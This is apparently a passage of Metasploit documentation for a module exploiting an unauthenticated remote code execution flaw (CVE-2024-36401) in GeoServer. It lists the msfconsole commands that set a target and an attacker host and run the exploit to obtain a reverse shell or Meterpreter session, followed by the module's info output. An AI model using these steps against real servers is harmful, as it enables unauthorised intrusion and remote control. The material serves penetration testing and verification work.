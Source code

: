 You are ready to test the module.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/geoserver_unauth_rce_cve_2024_36401`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ]  `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options.

## Scenarios
```msf
msf exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > info

       Name: Geoserver unauthenticated Remote Code Execution
     Module: exploit/multi/http/geoserver_unauth_rce_cve_2024_36401
   Platform: Unix, Linux
       Arch: cmd, x86, x64, aarch64, armle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-07-01

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Steve Ikeoka

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                        cs/using-metasploit.html
  RPORT      8080             yes       The target port (TCP)
```